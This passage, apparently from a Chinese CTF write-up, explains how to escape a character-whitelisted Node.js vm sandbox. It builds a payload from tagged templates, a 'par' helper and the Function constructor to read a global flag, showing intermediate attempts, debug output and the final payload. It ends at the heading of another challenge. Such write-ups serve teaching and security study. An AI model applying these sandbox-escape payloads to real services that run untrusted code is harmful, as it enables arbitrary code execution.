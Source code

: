 回到题目中，我们的目标是构造出`this.constructor.constructor('return global.flag')()`，因为涉及到访问属性很麻烦，那么把this省略，又因为Function的作用域访问规则，global也可以省略，即`constructor.constructor('return flag')()`

这段代码需要一次属性访问，在没有`.`和`[]`的情况下，可以使用with语句：

```
> let cls = {s: 'its me'}
undefined
> with (cls) console.log(s)
its me
undefined
```

但白名单中没有`()`，注意到出题人给沙盒传入了一个par lambda，它就是用来构造`(val)`的：

```javascript
vm.createContext({par: (v => `(${v})`), source, help})
```

改写一下目标代码：`Function('with(constructor){return constructor("return flag")()}')`，然后用tagged template和par函数替换：

```
Function`s${`with${par`constructor`}{return constructor${par`return flag`}${par``}}`}`
```

执行一下有报错：
```
> Function`s${`with${par`constructor`}{return constructor${par`return flag`}${par``}}`}`
SyntaxError: Unexpected token return
```

debug一下看到，这里的`return flag`不是个字符串

```
> foo`s${`with${par`constructor`}{return constructor${par`return flag`}${par``}}`}`
[ 's', '' ]
[ 'with(constructor){return constructor(return flag)()}' ]
```
白名单中没有`'`和`"`，也没有`\\`来转义内部的飘号，只能考虑别的做法

为了解决这个问题，我们可以将要交给`constructor.constructor`执行的代码字符串当做最外层的Function的自定义参数传入。于是内层`constructor.constructor`接收到的参数就是一个列表`['code']`，但不影响，因为`constructor.constructor`本身就是Function，所以符合上文提到的代码参数可为列表的特性

于是将`return flag`当做形参s的实参传入就行了，最终实际执行的是：

`Function(['s'], ['with(constructor){return constructor(s)()}'])(['return flag'])`

最终的payload：

```
Function`s${`with${par`constructor`}{return constructor${par`s`}${par``}}`}``return flag`
```

## 数字中国虎符

拿了所有Web题一血还是比较舒服的

### easy_login
